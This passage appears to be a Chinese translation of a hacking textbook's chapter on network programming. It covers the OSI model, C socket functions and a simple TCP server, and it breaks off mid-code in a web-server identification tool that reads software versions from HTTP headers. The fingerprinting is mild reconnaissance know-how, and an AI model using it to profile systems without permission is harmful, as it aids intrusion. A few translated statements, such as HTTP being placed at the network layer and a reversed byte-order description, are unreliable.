




# 第 0x400 章。网络

通信和语言极大地增强了人类的能力。通过使用一种共同的语言，人类能够传递知识、协调行动和分享经验。同样，当程序能够通过网络与其他程序进行通信时，它们可以变得更为强大。网络浏览器的真正效用不在于程序本身，而在于其与 web 服务器通信的能力。

网络如此普遍，以至于有时人们认为这是理所当然的。许多应用程序，如电子邮件、网页和即时消息，都依赖于网络。每个应用程序都依赖于特定的网络协议，但每个协议都使用相同的通用网络传输方法。

许多人没有意识到网络协议本身存在漏洞。在本章中，你将学习如何使用套接字来网络化你的应用程序，以及如何处理常见的网络漏洞。

# OSI 模型

当两台计算机相互交谈时，它们需要说同一种语言。这种语言的架构是通过 OSI 模型按层描述的。OSI 模型提供了标准，允许硬件，如路由器和防火墙，专注于与其相关的特定通信方面，而忽略其他方面。OSI 模型被分解为通信的概念层。这样，路由器和防火墙硬件可以专注于在较低层传递数据，忽略运行应用程序使用的较高层数据封装。以下为七个 OSI 层：

| **物理层** 此层处理两个点之间的物理连接。这是最低层，其主要作用是通信原始比特流。此层还负责激活、维护和断开这些比特流通信。 |
| --- |
| **数据链路层** 此层负责在两个点之间实际传输数据。与负责发送原始比特的物理层相比，此层提供高级功能，如错误纠正和流量控制。此层还提供激活、维护和断开数据链路连接的程序。 |
| **网络层** 此层作为一个中间层工作；其主要作用是在较低层和较高层之间传递信息。它提供寻址和路由。 |
| **传输层** 此层在系统之间提供透明地传输数据。通过提供可靠的数据通信，此层允许高层永远不必担心数据传输的可靠性或成本效益。 |
| **会话层** 此层负责在网络应用程序之间建立和维护连接。 |
| **表示层** 此层负责以应用程序理解的语法或语言呈现数据。这允许进行加密和数据压缩等操作。 |
| **应用层** 这一层关注跟踪应用程序的需求。 |

当数据通过这些协议层进行通信时，它被分成小块，称为数据包。每个数据包包含这些协议层的实现。从应用层开始，数据包将表示层包裹在数据周围，然后是会话层，再然后是传输层，以此类推。这个过程称为封装。每个封装层包含一个头部和一个主体。头部包含该层所需的协议信息，而主体包含该层的数据。一个层的主体包含之前封装的所有层的整个包，就像洋葱的皮或程序堆栈上找到的功能上下文一样。

例如，每次你浏览网页时，以太网电缆和卡组成物理层，负责将原始比特从电缆一端传输到另一端。下一层是数据链路层。在网页浏览器的例子中，以太网构成了这一层，它提供了局域网中以太网端口之间的低级通信。这个协议允许以太网端口之间的通信，但这些端口还没有 IP 地址。IP 地址的概念直到下一层，即网络层才存在。除了寻址之外，这一层还负责将数据从一个地址移动到另一个地址。这三个较低层共同能够将数据包从一个 IP 地址发送到另一个 IP 地址。下一层是传输层，对于网络流量来说是 TCP；它提供了一个无缝的双向套接字连接。术语*TCP/IP*描述了在传输层使用 TCP 和在网络层使用 IP。在这一层存在其他寻址方案；然而，你的网络流量可能使用 IP 版本 4（IPv4）。IP 版本 6（IPv6）也存在于这一层，具有完全不同的寻址方案。由于 IPv4 最常见，本书中的*IP*始终指 IPv4。

网络流量本身使用 HTTP（超文本传输协议）进行通信，这是 OSI 模型的顶层。当你浏览网页时，你网络上的网络浏览器正通过互联网与位于不同私有网络上的 web 服务器进行通信。当这种情况发生时，数据包被封装到物理层，然后传递给路由器。由于路由器不关心数据包中实际的内容，它只需要实现到网络层的协议。路由器将数据包发送到互联网，在那里它们到达另一个网络的路由器。然后，这个路由器将这个数据包封装成需要到达最终目的地的低层协议头部。这个过程在下面的插图中有展示。



图 0x400-1。

所有这些数据包封装构成了一个复杂的语言，互联网（以及其他类型的网络）上的主机使用它来相互通信。这些协议被编程到路由器、防火墙以及您的计算机操作系统中，以便它们可以通信。使用网络的应用程序，如网页浏览器和电子邮件客户端，需要与操作系统接口，该操作系统处理网络通信。由于操作系统负责网络封装的细节，编写网络程序只是使用操作系统的网络接口的问题。

# 套接字

网络套接字是通过操作系统执行网络通信的标准方式。套接字可以被视为连接的端点，就像操作员交换机上的一孔。但这些套接字只是程序员对上述 OSI 模型中所有繁琐细节的抽象处理。对于程序员来说，套接字可以用来在网络中发送或接收数据。这些数据在会话层（5）传输，位于下层（由操作系统处理）之上，下层负责路由。存在几种不同类型的套接字，它们决定了传输层（4）的结构。最常见的是流套接字和数据报套接字。

流套接字提供类似于打电话时的可靠双向通信。一方发起与另一方的连接，连接建立后，任何一方都可以与另一方通信。此外，还有即时的确认，表明您所说的话确实到达了目的地。流套接字使用一种称为传输控制协议（TCP）的标准通信协议，该协议存在于 OSI 模型的传输层（4）上。在计算机网络中，数据通常以称为数据包的块的形式传输。TCP 被设计成数据包将无错误且按顺序到达，就像您在电话中说话时，另一端接收到的单词顺序与您说话的顺序相同。Web 服务器、邮件服务器及其相应的客户端应用程序都使用 TCP 和流套接字进行通信。

另一种常见的套接字类型是数据报套接字。使用数据报套接字进行通信更像是邮寄信件而不是打电话。这种连接是单向的且不可靠的。如果你邮寄几封信，你不能确定它们是否按相同的顺序到达，甚至不能确定它们是否真的到达了目的地。邮政服务相当可靠；然而，互联网却不是。数据报套接字在传输层使用另一种标准协议 UDP 而不是 TCP。UDP 代表用户数据报协议，意味着它可以用来创建自定义协议。该协议非常基础且轻量级，其中内置了很少的安全保障。它不是一个真正的连接，而是一种从一点到另一点发送数据的基本方法。使用数据报套接字，协议中的开销非常小，但协议本身做得不多。如果你的程序需要确认数据包被另一端接收，另一端必须被编码为发送确认数据包。在某些情况下，数据包丢失是可以接受的。

数据报套接字和 UDP 常用于网络游戏和流媒体，因为开发者可以精确地定制他们的通信，而不需要 TCP 内置的开销。

## Socket 函数

在 C 语言中，套接字的行为与文件非常相似，因为它们使用文件描述符来标识自己。套接字的行为与文件如此相似，以至于你可以实际上使用 `read()` 和 `write()` 函数通过套接字文件描述符接收和发送数据。然而，有几个专门设计用于处理套接字的功能。这些函数的原型定义在 `/usr/include/sys/sockets.h` 中。

**`socket(int domain, int type, int protocol)`**

用于创建一个新的套接字，在出错时返回套接字的文件描述符或 `-1`。

**`connect(int fd, struct sockaddr *remote_host, socklen_t addr_length)`**

将套接字（由文件描述符 `fd` 描述）连接到远程主机。成功时返回 `0`，出错时返回 `-1`。

**`bind(int fd, struct sockaddr *local_addr, socklen_t addr_length)`**

将套接字绑定到本地地址，以便它可以监听传入的连接。成功时返回 `0`，出错时返回 `-1`。

**`listen(int fd, int backlog_queue_size)`**

监听传入的连接并将连接请求排队到 `backlog_queue_size`。成功时返回 `0`，出错时返回 `-1`。

**`accept(int fd, sockaddr *remote_host, socklen_t *addr_length)`**

在已绑定的套接字上接受传入的连接。远程主机的地址信息写入到 `remote_host` 结构中，实际地址结构的大小写入到 `*addr_length`。此函数返回一个新套接字文件描述符以标识已连接的套接字，或在出错时返回 `-1`。

**``send(int fd, void *buffer, size_t *`n`*, int flags)``**

从 `*buffer` 发送 *`n`* 字节到套接字 `fd`；返回发送的字节数或在出错时返回 `-1`。

**``recv(int fd, void *buffer, size_t *`n`*, int flags)``**

从套接字`fd`接收*`n`*字节到`*buffer`；返回接收的字节数或在出错时返回`-1`。

当使用`socket()`函数创建套接字时，必须指定套接字的域、类型和协议。域指的是套接字的协议族。套接字可以使用各种协议进行通信，从您浏览网页时使用的标准互联网协议到业余无线电协议 AX.25（当您成为一个巨大的极客时）。这些协议族在`bits/socket.h`中定义，该文件会自动从`sys/socket.h`中包含。

### 从`/usr/include/bits/socket.h`

```
/* Protocol families.  */
#define PF_UNSPEC 0 /* Unspecified.  */
#define PF_LOCAL  1 /* Local to host (pipes and file-domain).  */
#define PF_UNIX   PF_LOCAL /* Old BSD name for PF_LOCAL.  */
#define PF_FILE   PF_LOCAL /* Another nonstandard name for PF_LOCAL.  */
#define PF_INET   2 /* IP protocol family.  */
#define PF_AX25   3 /* Amateur Radio AX.25\.  */
#define PF_IPX    4 /* Novell Internet Protocol.  */
#define PF_APPLETALK  5 /* Appletalk DDP.  */
#define PF_NETROM 6 /* Amateur radio NetROM.  */
#define PF_BRIDGE 7 /* Multiprotocol bridge.  */
#define PF_ATMPVC 8 /* ATM PVCs.  */
#define PF_X25    9 /* Reserved for X.25 project.  */
#define PF_INET6  10  /* IP version 6\.  */
     ...
```

如前所述，存在几种类型的套接字，尽管流套接字和数据报套接字是最常用的。套接字类型也在`bits/socket.h`中定义。（上面代码中的`/* comments */`只是注释星号之间所有内容的另一种样式。）

### 从`/usr/include/bits/socket.h`

```
/* Types of sockets.  */
enum __socket_type
{
  SOCK_STREAM = 1,    /* Sequenced, reliable, connection-based byte streams.  */
#define SOCK_STREAM SOCK_STREAM
  SOCK_DGRAM = 2,   /* Connectionless, unreliable datagrams of fixed maximum length.  */
#define SOCK_DGRAM SOCK_DGRAM

  ...
```

`socket()`函数的最后一个参数是协议，几乎总是应该是`0`。规范允许在协议族内使用多个协议，因此此参数用于从族中选择一个协议。然而，在实践中，大多数协议族只有一个协议，这意味着通常应该将其设置为`0`；族枚举中的第一个和唯一协议。在我们这本书中，我们将使用套接字的所有内容都是这种情况，因此在我们的示例中，此参数始终是`0`。

## 套接字地址

许多套接字函数引用`sockaddr`结构来传递定义主机的地址信息。此结构也在`bits/socket.h`中定义，如下页所示。

### 从`/usr/include/bits/socket.h`

```
/* Get the definition of the macro to define the common sockaddr members.  */
#include <bits/sockaddr.h>

/* Structure describing a generic socket address. */
struct sockaddr
  {
    __SOCKADDR_COMMON (sa_);  /* Common data: address family and length.  */
    char sa_data[14];   /* Address data.  */
  };
```

`SOCKADDR_COMMON`宏在包含的`bits/sockaddr.h`文件中定义，这基本上相当于一个无符号短整型。此值定义了地址的地址族，其余的结构用于保存地址数据。由于套接字可以使用各种协议族进行通信，每个协议族都有其定义端点地址的方式，因此地址的定义也必须是可变的，取决于地址族。可能的地址族也在`bits/socket.h`中定义；它们通常直接转换为相应的协议族。

### 从`/usr/include/bits/socket.h`

```
/* Address families.  */
#define AF_UNSPEC PF_UNSPEC
#define AF_LOCAL  PF_LOCAL
#define AF_UNIX   PF_UNIX
#define AF_FILE   PF_FILE
#define AF_INET   PF_INET
#define AF_AX25   PF_AX25
#define AF_IPX    PF_IPX
#define AF_APPLETALK  PF_APPLETALK
#define AF_NETROM PF_NETROM
#define AF_BRIDGE PF_BRIDGE
#define AF_ATMPVC PF_ATMPVC
#define AF_X25    PF_X25
#define AF_INET6  PF_INET6
     ...
```

由于地址可以包含根据地址族不同而不同的信息，因此在地址数据部分包含来自`sockaddr`结构的常见元素以及针对地址族特定的信息的几个其他地址结构。这些结构的大小也相同，因此它们可以相互类型转换。这意味着`socket()`函数将简单地接受一个指向`sockaddr`结构的指针，实际上这个指针可以指向 IPv4、IPv6 或 X.25 的地址结构。这使得套接字函数能够在各种协议上操作。

在这本书中，我们将处理互联网协议版本 4，即协议族 `PF_INET`，使用地址族 `AF_INET`。`AF_INET` 的并行套接字地址结构定义在 `netinet/in.h` 文件中。

### 来自 /usr/include/netinet/in.h

```
/* Structure describing an Internet socket address.  */
struct sockaddr_in
  {
    __SOCKADDR_COMMON (sin_);
    in_port_t sin_port;     /* Port number.  */
    struct in_addr sin_addr;    /* Internet address.  */

    /* Pad to size of 'struct sockaddr'.  */
    unsigned char sin_zero[sizeof (struct sockaddr) -
         __SOCKADDR_COMMON_SIZE -
         sizeof (in_port_t) -
         sizeof (struct in_addr)];
  };
```

结构体顶部的 `SOCKADDR_COMMON` 部分简单地是上面提到的无符号短整型，用于定义地址族。由于套接字端点地址由一个互联网地址和一个端口号组成，因此这些是结构体中的下两个值。端口号是一个 16 位的短整型，而用于互联网地址的 `in_addr` 结构体包含一个 32 位的数字。结构体的其余部分只是 8 个字节的填充，以填充完整的 `sockaddr` 结构体。这个空间没有用于任何东西，但必须保留，以便结构体可以相互类型转换。最终，套接字地址结构体看起来像这样：


图表 0x400-2。

## 网络字节序

在 `AF_INET` 套接字地址结构中使用的端口号和 IP 地址预计将遵循网络字节序，这是大端序。这与 *x86* 的小端序相反，因此这些值必须转换。有几个专门用于这些转换的函数，其原型定义在 `netinet/in.h` 和 `arpa/inet.h` 包含文件中。以下是这些常见字节序转换函数的摘要：

**`htonl`***`(long value)`* **主机到网络长**

将主机字节序的 32 位整数转换为网络字节序

**`htons`***`(short value)`* **主机到网络短**

将主机字节序的 16 位整数转换为网络字节序

**`ntohl`***`(long value)`* **网络到主机长**

将网络字节序的 32 位整数转换为主机字节序

**`ntohs`***`(long value)`* **网络到主机短**

将网络字节序的 16 位整数转换为主机字节序

为了与所有架构兼容，即使主机使用大端字节序的处理器，也应继续使用这些转换函数。

## 互联网地址转换

当你看到 12.110.110.204 时，你可能会认出这是一个互联网地址（IP 版本 4）。这种熟悉的点分数字表示法是指定互联网地址的常见方式，并且有函数可以将这种表示法转换为 32 位整数，以及从 32 位整数转换回来。这些函数定义在 `arpa/inet.h` 包含文件中，其中两个最有用的转换函数是：

```
`inet_aton(char *ascii_addr, struct in_addr *network_addr)`
```

**ASCII 到网络**

此函数将包含点分数字格式 IP 地址的 ASCII 字符串转换为 `in_addr` 结构体，正如你所记得的，它只包含一个 32 位整数，表示网络字节顺序中的 IP 地址。

```
`inet_ntoa(struct in_addr *network_addr)`
```

**网络到 ASCII**

此函数执行相反的操作。它传递一个指向包含 IP 地址的`in_addr`结构的指针，函数返回一个指向包含点分数字格式的 IP 地址的 ASCII 字符串的字符指针。这个字符串在函数中保留在静态分配的内存缓冲区中，因此可以在下一次调用`inet_ntoa()`之前访问它，那时字符串将被覆盖。

## 简单服务器示例

展示这些函数如何使用最好的方式是通过示例。以下的服务器代码监听 7890 端口的 TCP 连接。当客户端连接时，它发送消息*Hello, world!*然后接收数据直到连接关闭。这是通过使用前面提到的包含文件中的套接字函数和结构来完成的，因此这些文件被包含在程序的开头。在 hacking.h 中添加了一个有用的内存转储函数，将在下一页展示。

### 添加到 hacking.h

```
// Dumps raw memory in hex byte and printable split format
void dump(const unsigned char *data_buffer, const unsigned int length) {
   unsigned char byte;
   unsigned int i, j;
   for(i=0; i < length; i++) {
      byte = data_buffer[i];
      printf("%02x ", data_buffer[i]);  // Display byte in hex.
      if(((i%16)==15) || (i==length-1)) {
         for(j=0; j < 15-(i%16); j++)
            printf("   ");
         printf("| ");
         for(j=(i-(i%16)); j <= i; j++) {  // Display printable bytes from line.
            byte = data_buffer[j];
            if((byte > 31) && (byte < 127)) // Outside printable char range
               printf("%c", byte);
            else
               printf(".");
         }
         printf("\n"); // End of the dump line (each line is 16 bytes)
      } // End if
   } // End for
}
```

此函数用于由服务器程序显示数据包数据。然而，由于它在其他地方也很有用，所以它被放入了 hacking.h 中。服务器程序的其余部分将在阅读源代码时进行解释。

### simple_server.c

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include "hacking.h"

#define PORT 7890 // The port users will be connecting to

int main(void) {
   int sockfd, new_sockfd;  // Listen on sock_fd, new connection on new_fd
   struct sockaddr_in host_addr, client_addr;   // My address information
   socklen_t sin_size;
   int recv_length=1, yes=1;
   char buffer[1024];

   if ((sockfd = socket(PF_INET, SOCK_STREAM, 0)) == -1)
      fatal("in socket");

   if (setsockopt(sockfd, SOL_SOCKET, SO_REUSEADDR, &yes, sizeof(int)) == -1)
      fatal("setting socket option SO_REUSEADDR");
```

到目前为止，程序使用`socket()`函数设置了一个套接字。我们想要一个 TCP/IP 套接字，所以协议族是`PF_INET`用于 IPv4，套接字类型是`SOCK_STREAM`用于流套接字。最后一个协议参数是`0`，因为`PF_INET`协议族中只有一个协议。此函数返回一个套接字文件描述符，它被存储在`sockfd`中。

`setsockopt()`函数简单地用于设置套接字选项。这个函数调用将`SO_REUSEADDR`套接字选项设置为`true`，这将允许它重新使用给定的地址进行绑定。如果没有设置此选项，当程序尝试绑定给定的端口时，如果该端口已被使用，它将失败。如果套接字没有正确关闭，它可能看起来正在使用中，所以这个选项允许套接字绑定到端口（并接管其控制权），即使它看起来正在使用中。

此函数的第一个参数是套接字（通过文件描述符引用），第二个指定了选项的级别，第三个指定了选项本身。由于`SO_REUSEADDR`是一个套接字级别的选项，因此级别被设置为`SOL_SOCKET`。在`/usr/include/asm/socket.h`中定义了许多不同的套接字选项。最后两个参数是指向应该设置该选项的数据的指针以及该数据的长度。数据和数据的长度是经常与套接字函数一起使用的两个参数。这使得函数能够处理各种数据，从单个字节到大型数据结构。`SO_REUSEADDR`选项使用 32 位整数作为其值，因此要将此选项设置为`true`，最后两个参数必须是指向整数值`1`的指针和整数的大小（这是 4 字节）。

```
	host_addr.sin_family = AF_INET;    // Host byte order
	host_addr.sin_port = htons(PORT);  // Short, network byte order
	host_addr.sin_addr.s_addr = 0; // Automatically fill with my IP.
	memset(&(host_addr.sin_zero), '\0', 8); // Zero the rest of the struct.

	if (bind(sockfd, (struct sockaddr *)&host_addr, sizeof(struct sockaddr)) == -1)
	  fatal("binding to socket");

	if (listen(sockfd, 5) == -1) 
	  fatal("listening on socket");
```

接下来的几行设置了 `host_addr` 结构，用于在 `bind` 调用中使用。地址族是 `AF_INET`，因为我们使用 IPv4 和 `sockaddr_in` 结构。端口号设置为 `PORT`，它定义为 `7890`。这个短整数值必须转换为网络字节顺序，因此使用 `htons()` 函数。地址设置为 `0`，这意味着它将自动填充为主机的当前 IP 地址。由于 `0` 的值与字节顺序无关，因此不需要转换。

`bind()` 调用传递套接字文件描述符、地址结构和地址结构长度。此调用将套接字绑定到当前 IP 地址的 7890 端口。

`listen()` 调用告诉套接字监听传入的连接，并且随后的 `accept()` 调用实际上接受了一个传入的连接。`listen()` 函数将所有传入的连接放入一个后备队列中，直到 `accept()` 调用接受连接。`listen()` 调用的最后一个参数设置了后备队列的最大大小。

```
while(1) {    // Accept loop.
      sin_size = sizeof(struct sockaddr_in);
      new_sockfd = accept(sockfd, (struct sockaddr *)&client_addr, &sin_size);
      if(new_sockfd == -1)
         fatal("accepting connection");
      printf("server: got connection from %s port %d\n", 
              inet_ntoa(client_addr.sin_addr), ntohs(client_addr.sin_port));
      send(new_sockfd, "Hello, world!\n", 13, 0);
      recv_length = recv(new_sockfd, &buffer, 1024, 0);
      while(recv_length &gt; 0) {
         printf("RECV: %d bytes\n", recv_length);
         dump(buffer, recv_length);
         recv_length = recv(new_sockfd, &buffer, 1024, 0);
      }
      close(new_sockfd);
   }
   return 0;
}
```

接下来是一个接受传入连接的循环。`accept()` 函数的前两个参数应该立即有意义；最后一个参数是指向地址结构大小的指针。这是因为 `accept()` 函数会将连接客户端的地址信息写入地址结构，并将该结构的大小写入 `sin_size`。对于我们的目的，大小永远不会改变，但为了使用该函数，我们必须遵守调用约定。`accept()` 函数返回已接受连接的新套接字文件描述符。这样，原始套接字文件描述符可以继续用于接受新的连接，而新的套接字文件描述符用于与已连接的客户端通信。

在建立连接后，程序会打印出一个连接消息，使用 `inet_ntoa()` 将 `sin_addr` 地址结构转换为点分十进制 IP 字符串，并使用 `ntohs()` 将 `sin_port` 数字字节的顺序转换为网络字节顺序。

`send()` 函数将字符串 `Hello, world!\n` 的 13 个字节发送到描述新连接的新套接字。`send()` 和 `recv()` 函数的最后一个参数是标志，对于我们的目的，将始终是 `0`。

接下来是一个循环，它从连接接收数据并将其打印出来。`recv()` 函数提供了一个指向缓冲区的指针和一个从套接字读取的最大长度。该函数将数据写入传递给它的缓冲区，并返回实际写入的字节数。只要 `recv()` 调用继续接收数据，循环就会继续。

当编译并运行时，程序将绑定到主机的 7890 端口并等待传入的连接：

```
reader@hacking:~/booksrc $ gcc simple_server.c
reader@hacking:~/booksrc $ ./a.out
```

Telnet 客户端基本上就像一个通用的 TCP 连接客户端，因此可以通过指定目标 IP 地址和端口来连接到简单服务器。

### 来自远程机器

```
matrix@euclid:~ $ telnet 192.168.42.248 7890
Trying 192.168.42.248...
Connected to 192.168.42.248.
Escape character is '^]'.
Hello, world!
this is a test
fjsghau;ehg;ihskjfhasdkfjhaskjvhfdkjhvbkjgf
```

连接后，服务器发送字符串`Hello, world!`，其余的是我输入`this is a test`的本地字符回显和一行键盘敲击。由于 telnet 是按行缓冲的，所以这两行在按下`ENTER`键时都会发送回服务器。在服务器端，输出显示了连接和数据包，这些数据包被发送回。

### 在本地机器上

```
reader@hacking:~/booksrc $ ./a.out 
server: got connection from 192.168.42.1 port 56971
RECV: 16 bytes
74 68 69 73 20 69 73 20 61 20 74 65 73 74 0d 0a | This is a test...
RECV: 45 bytes
66 6a 73 67 68 61 75 3b 65 68 67 3b 69 68 73 6b | fjsghau;ehg;ihsk
6a 66 68 61 73 64 6b 66 6a 68 61 73 6b 6a 76 68 | jfhasdkfjhaskjvh
66 64 6b 6a 68 76 62 6b 6a 67 66 0d 0a          | fdkjhvbkjgf...
```

## 一个 Web 客户端示例

telnet 程序作为我们的服务器客户端工作得很好，所以实际上没有太多理由去编写一个专门的客户端。然而，有成千上万种不同类型的服务器接受标准的 TCP/IP 连接。每次你使用网络浏览器时，它都会连接到某个地方的 web 服务器。这个连接通过 HTTP 在连接上传输网页，HTTP 定义了请求和发送信息的一种特定方式。默认情况下，web 服务器运行在端口 80 上，这个端口在/etc/services 中列出了许多其他默认端口。

### 来自/etc/services

```
finger    79/tcp        # Finger
finger    79/udp
http      80/tcp    www www-http  # World Wide Web HTTP
```

HTTP 存在于 OSI 模型的网络层——最顶层。在这一层，所有网络细节都已经被下层处理完毕，因此 HTTP 使用明文作为其结构。许多其他应用层协议也使用明文，例如 POP3、SMTP、IMAP 以及 FTP 的控制通道。由于这些是标准协议，它们都有很好的文档记录，并且易于研究。一旦你了解了这些各种协议的语法，你就可以手动与其他使用相同语言的程序进行交流。不需要流利，但了解一些重要短语将有助于你在访问国外服务器时。在 HTTP 的语言中，使用命令`GET`发起请求，后跟资源路径和 HTTP 协议版本。例如，`GET / HTTP/1.0`将使用 HTTP 1.0 版本从 web 服务器请求根文档。实际上，请求的是`/`的根目录，但大多数 web 服务器会自动在该目录中搜索默认的 HTML 文档 index.html。如果服务器找到资源，它将通过发送几个头部信息来使用 HTTP 响应，然后再发送内容。如果使用的是命令`HEAD`而不是`GET`，它将只返回 HTTP 头部信息而不包含内容。这些头部信息是明文的，通常可以提供关于服务器的信息。这些头部信息可以通过 telnet 手动获取，通过连接到已知网站的 80 端口，然后输入`HEAD / HTTP/1.0`并按两次 ENTER。在下面的输出中，telnet 用于打开到[`www.internic.net`](http://www.internic.net)的 web 服务器的 TCP-IP 连接。然后手动与 HTTP 应用层进行交流，请求主索引页的头部信息。

```
reader@hacking:~/booksrc $ telnet www.internic.net 80
Trying 208.77.188.101...
Connected to www.internic.net.
Escape character is '^]'.
HEAD / HTTP/1.0

HTTP/1.1 200 OK
Date: Fri, 14 Sep 2007 05:34:14 GMT
Server: Apache/2.0.52 (CentOS)
Accept-Ranges: bytes
Content-Length: 6743
Connection: close
Content-Type: text/html; charset=UTF-8

Connection closed by foreign host.
reader@hacking:~/booksrc $
```

这揭示了 web 服务器是 Apache 版本 2.0.52，甚至可以知道主机运行的是 CentOS。这对于配置文件分析可能很有用，所以让我们编写一个程序来自动化这个手动过程。

接下来的几个程序将发送和接收大量数据。由于标准套接字函数不是很友好，让我们编写一些发送和接收数据的函数。这些函数被称为 `send_string()` 和 `recv_line()`，并将添加到一个名为 hacking-network.h 的新头文件中。

正常的 `send()` 函数返回写入的字节数，这并不总是等于你尝试发送的字节数。`send_string()` 函数接受一个套接字和一个字符串指针作为参数，并确保整个字符串通过套接字发送出去。它使用 `strlen()` 来确定传递给它的字符串的总长度。

你可能已经注意到，简单服务器接收到的每个数据包都以字节 `0x0D` 和 `0x0A` 结尾。这就是 telnet 终止行的方式——它发送一个回车符和一个换行符。HTTP 协议也期望行以这两个字节结束。快速查看 ASCII 表可以看出，`0x0D` 是回车符 (`'\r'`)，而 `0x0A` 是换行符 (`'\n'`)。

```
reader@hacking:~/booksrc $ man ascii | egrep "Hex|0A|0D"
Reformatting ascii(7), please wait...
       Oct   Dec   Hex   Char                        Oct   Dec   Hex   Char
       012   10    0A    LF  '\n' (new line)         112   74    4A    J
       015   13    0D    CR  '\r' (carriage ret)     115   77    4D    M
reader@hacking:~/booksrc $
```

`recv_line()` 函数读取整个数据行。它从作为第一个参数传递的套接字读取数据到第二个参数指向的缓冲区。它继续从套接字接收数据，直到遇到连续的最后一个两个行终止字节。然后它终止字符串并退出函数。这些新函数确保所有字节都发送和接收以 `'\r\n'` 结尾的数据行。它们列在下面，在一个名为 hacking-network.h 的新头文件中。

### hacking-network.h

```
/* This function accepts a socket FD and a ptr to the null terminated
 * string to send.  The function will make sure all the bytes of the
 * string are sent.  Returns 1 on success and 0 on failure.
 */
int send_string(int sockfd, unsigned char *buffer) {
   int sent_bytes, bytes_to_send;
   bytes_to_send = strlen(buffer);
   while(bytes_to_send > 0) {
      sent_bytes = send(sockfd, buffer, bytes_to_send, 0);
      if(sent_bytes == -1)
         return 0; // Return 0 on send error.
      bytes_to_send -= sent_bytes;
      buffer += sent_bytes;
   }
   return 1; // Return 1 on success.
}

/* This function accepts a socket FD and a ptr to a destination
 * buffer.  It will receive from the socket until the EOL byte
 * sequence in seen.  The EOL bytes are read from the socket, but
 * the destination buffer is terminated before these bytes.
 * Returns the size of the read line (without EOL bytes).
 */
int recv_line(int sockfd, unsigned char *dest_buffer) {
#define EOL "\r\n" // End-of-line byte sequence
#define EOL_SIZE 2
   unsigned char *ptr;
   int eol_matched = 0;

   ptr = dest_buffer;
   while(recv(sockfd, ptr, 1, 0) == 1) { // Read a single byte.
      if(*ptr == EOL[eol_matched]) { // Does this byte match terminator?
         eol_matched++;
         if(eol_matched == EOL_SIZE) { // If all bytes match terminator,
            *(ptr+1-EOL_SIZE) = '\0'; // terminate the string.
            return strlen(dest_buffer); // Return bytes received
         }
      } else {
         eol_matched = 0;
      }
      ptr++; // Increment the pointer to the next byter.
   }
   return 0; // Didn't find the end-of-line characters.
}
```

将套接字连接到数值 IP 地址相当简单，但命名地址通常用于方便。在手册 `HTTP HEAD` 请求中，telnet 程序自动执行 DNS（域名服务）查找以确定 [www.internic.net](http://www.internic.net) 对应于 IP 地址 192.0.34.161。DNS 是一种协议，允许通过命名地址查找 IP 地址，类似于如果你知道名字，可以在电话簿中查找电话号码。自然，有一些与套接字相关的函数和结构专门用于通过 DNS 进行主机名查找。这些函数和结构在 netdb.h 中定义。一个名为 `gethostbyname()` 的函数接受一个包含命名地址的字符串指针，并在成功时返回一个指向 `hostent` 结构的指针，或者在出错时返回 `NULL` 指针。`hostent` 结构包含查找信息，包括作为网络字节顺序的 32 位整数的数值 IP 地址。类似于 `inet_ntoa()` 函数，这个结构的内存是在函数中静态分配的。这个结构如下所示，列在 netdb.h 中。

### 来自 /usr/include/netdb.h

```
/* Description of database entry for a single host.  */
struct hostent
{
  char *h_name;     /* Official name of host.  */
  char **h_aliases;   /* Alias list.  */
  int h_addrtype;   /* Host address type.  */
  int h_length;     /* Length of address.  */
  char **h_addr_list;   /* List of addresses from name server.  */
#define h_addr  h_addr_list[0]  /* Address, for backward compatibility.  */
};
```

以下代码演示了 `gethostbyname()` 函数的使用。

### host_lookup.c

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>

#include <netdb.h>

#include "hacking.h"

int main(int argc, char *argv[]) {
   struct hostent *host_info;
   struct in_addr *address;

   if(argc < 2) {
      printf("Usage: %s <hostname>\n", argv[0]);
      exit(1);
   }

   host_info = gethostbyname(argv[1]);
   if(host_info == NULL) {
      printf("Couldn't lookup %s\n", argv[1]);
   } else {
      address = (struct in_addr *) (host_info->h_addr);
      printf("%s has address %s\n", argv[1], inet_ntoa(*address));
   }
}
```

此程序接受一个主机名作为其唯一参数，并打印出 IP 地址。`gethostbyname()`函数返回一个指向`hostent`结构的指针，该结构包含在元素`h_addr`中的 IP 地址。将此元素的指针转换为`in_addr`指针，稍后用于调用`inet_ntoa()`，该函数期望一个`in_addr`结构作为其参数。以下页面展示了示例程序输出。

```
reader@hacking:~/booksrc $ gcc -o host_lookup host_lookup.c 
reader@hacking:~/booksrc $ ./host_lookup www.internic.net
www.internic.net has address 208.77.188.101
reader@hacking:~/booksrc $ ./host_lookup www.google.com
www.google.com has address 74.125.19.103 
reader@hacking:~/booksrc $ 
```

使用套接字函数构建在此之上，创建一个网络服务器识别程序并不困难。

### webserver_id.c

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <netdb.h>

#include "hacking.h"
#include "hacking-network.h"

int main(int argc, char *argv[]) {
   int sockfd;
   struct hostent *host_info;
   struct sockaddr_in target_addr;
   unsigned char buffer[4096];

   if(argc < 2) {
      printf("Usage: %s <hostname>\n", argv[0]);
      exit(1);
   }

   if((host_info = gethostbyname(argv[1])) == NULL)
      fatal("looking up hostname");

   if ((sockfd = socket(PF_INET, SOCK_STREAM, 0)) == -1)
